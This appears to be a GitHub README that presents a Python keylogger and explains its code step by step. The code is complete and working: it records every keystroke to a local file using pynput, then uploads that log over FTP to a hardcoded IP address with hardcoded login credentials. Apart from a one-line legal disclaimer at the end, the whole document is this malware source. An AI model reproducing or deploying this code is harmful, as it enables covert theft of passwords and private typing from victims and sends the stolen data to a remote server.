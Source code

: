 # keylogger
Attempting to create a basic keylogger script in Python. 


1. **Import Libraries:**
   ```python
   from pynput.keyboard import Key, Listener
   import ftplib
   import logging
   ```
   - This code snippet imports the necessary libraries:
     - `pynput.keyboard`: Provides functions to monitor and control input devices such as keyboards.
     - `ftplib`: Provides FTP protocol client functionalities.
     - `logging`: Allows logging messages to a file.

2. **Define Variables:**
   ```python
   logdir = ""
   ```
   - This variable `logdir` is an empty string. It's intended to specify the directory where the log file will be saved. You can set it to a specific directory if desired.

3. **Configure Logging:**
   ```python
   logging.basicConfig(filename=logdir + "klog-res.txt", level=logging.DEBUG, format="%(asctime)s: %(message)s")
   ```
   - This sets up the logging configuration. It specifies the file name (`klog-res.txt`), the logging level (`DEBUG`), and the format of log messages.

4. **Define Functions:**
   ```python
   def pressing_key(key):
       try:
           logging.info(str(key))
       except AttributeError:
           print("A special key {0} has been pressed.".format(key))

   def releasing_key(key):
       if key == Key.esc:
           return False
   ```
   - These functions are called when a key is pressed (`pressing_key`) and released (`releasing_key`). 
   - `pressing_key` logs the pressed key using `logging.info`. It also handles special keys.
   - `releasing_key` checks if the pressed key is the escape key (`Key.esc`). If it is, it returns `False`.

5. **Start Listening for Key Presses:**
   ```python
   print("\nStarted listening...\n")
   with Listener(on_press=pressing_key, on_release=releasing_key) as listener:
       listener.join()
   ```
   - This code block starts listening for key presses. It prints a message indicating that key listening has started.
   - The `Listener` object is created with `pressing_key` and `releasing_key` functions as callbacks.
   - The `join()` method waits for the listener to stop (which is controlled by `releasing_key` returning `False`).

6. **FTP Connection and File Transfer:**
   ```python
   print("\nConnection to the FTP and Sending the data...")
   sess = ftplib.FTP("192.169.68.145", "mafadmin", "msfadin")
   file = open("klog-res.txt", "rb")
   sess.storbinary("STOR klog-res.txt", file)
   file.close()
   sess.quit()
   ```
   - After key listening stops, this block establishes an FTP connection to a server (`192.169.68.145`) using credentials (`mafadmin` and `msfadin`).
   - It then opens the log file in binary read mode (`"rb"`) and uploads it to the server using `storbinary`.
   - Finally, it closes the file and quits the FTP session.

This code snippet essentially creates a keylogger that logs pressed keys to a file (`klog-res.txt`). After logging, it transfers this file via FTP to a specified server. However, please be aware that keyloggers can have ethical and legal implications, and their use should comply with applicable laws and regulations.
